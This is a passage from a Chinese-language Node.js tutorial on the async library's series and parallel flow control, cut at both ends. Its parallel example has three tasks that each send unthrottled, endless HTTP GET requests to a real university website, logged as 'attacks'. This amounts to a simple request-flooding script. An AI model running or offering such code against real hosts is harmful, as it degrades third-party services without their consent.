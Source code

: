 ```bash
     },
     (data,callback) => {
         callback('test', 2);
     },
     (data,callback) => {
         callback(null, 3);
     }
 ],(err,results)=>{
     console.log(results)
 })
```
>- 并行流程控制
>>Async并行流程控制是通过parallel()函数来实现的

```bash
 实例：
 /**
  * @time  2018/9/21 10:59
  * @author  Bill Wang <1826001146@qq.com>
  * @desc  Async并行流程控制
  * @param parallel(task,callback)
  *        @task:可以是数组也可以是JSON对象，是哪种类型就返回哪种类型
  *        @callback:回调函数，用来返回task执行后接收的数据
  *        并发控制就是在同一时间干两件事或者多件事
  * @todo 练习并且熟练使用
  */
 const async = require('async');
 const http = require('http');
 console.time('time');
 async.parallel([
     (callback) => {
         console.log('我是进程1,开始并发攻击网站');
         let count1 = 0;
         setInterval(()=>{
             http.get('http://www.gsut.edu.cn/w/',(res)=>{
                 count1++;
                 console.log(`进程1攻击${count1}次`);
                 res.on('error',()=>{
                     console.log(`进程1攻击失败!!`);
                 })
             });
         },0);
         callback(null, '准备!!!');
     },
     (callback) => {
         console.log('我是进程2，开始并发攻击网站');
         let count2 = 0;
         setInterval(()=>{
             http.get('http://www.gsut.edu.cn/w/',(res)=>{
                 count2++;
                 console.log(`进程2攻击${count2}次`);
                 res.on('error',()=>{
                     console.log(`进程2攻击失败!!`);
                 })
             })
         },0)
         callback(null, '准备!!!');
     },
     (callback) => {
         console.log('我是进程3，开始并发攻击网站');
         let count3 = 0;
         setInterval(()=>{
             http.get('http://www.gsut.edu.cn/w/',(res)=>{
                 count3++;
```
